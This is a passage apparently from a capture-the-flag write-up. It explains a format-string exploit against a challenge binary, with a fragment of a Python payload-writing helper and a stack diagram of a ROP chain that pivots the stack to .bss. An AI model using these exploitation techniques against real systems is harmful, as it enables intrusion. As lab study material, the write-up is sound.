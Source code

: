 ```python
        fmtstr += fmtstr_payload(
            self.offset,
            self.writes,
            numbwritten=self.padlen + self.numbwritten,
            badbytes=self.badbytes,
            write_size='byte',
            no_dollars=True,  # critical
        )
        self.execute_fmt(fmtstr)
        self.writes = {}

    def write(self, addr, data):
        self.writes[addr] = data
```

### get_flag.py

The PoC was a mess. I either need to reconstruct it or change the target.

At one point, I could have just set the gadgets and called them directly, but instead I built a workaround. I still have some questions in my mind that I haven’t dug into yet. When I tried to write during the **again.\n** phase, the binary crashed.

So I kept it simple and wrote the ROP payload during the **exit.\n** phase instead.

Here’s what happens:

- First, I overwrite the **function’s saved return address** with the function itself. Because there was a padding issue, I added a `ret` instruction to align the stack to 16 bytes.
    
- Next, when the function’s saved return address gets pushed 8 bytes onto the stack, I overwrite it with a `pop rsp` gadget and the `.bss` address.
```csharp
Higher addresses
│ … caller …
├───────────────────────────────
│ saved RBP              (old_rbp)
├───────────────────────────────
│ [rbp+0x08] = ret              ← saved RIP # -> 1st turn saved RIP
├───────────────────────────────
│ [rbp+0x10] = exe.sym.func     ← saved RIP # -> 1st turn saved RIP+8
├───────────────────────────────
│ [rbp+0x18] = pop_rsp          ← saved RIP # -> 2nd turn saved rip
├───────────────────────────────
│ [rbp+0x20] = bss              ← data for pop_rsp
├───────────────────────────────
│   … locals …
└───────────────────────────────
```
    
- On the second run, the ROP gadgets are already placed at the `.bss` address. So when control flows there, the gadgets are ready to execute.

- Offset, padlen and numbwritten values detected same as previous posts.
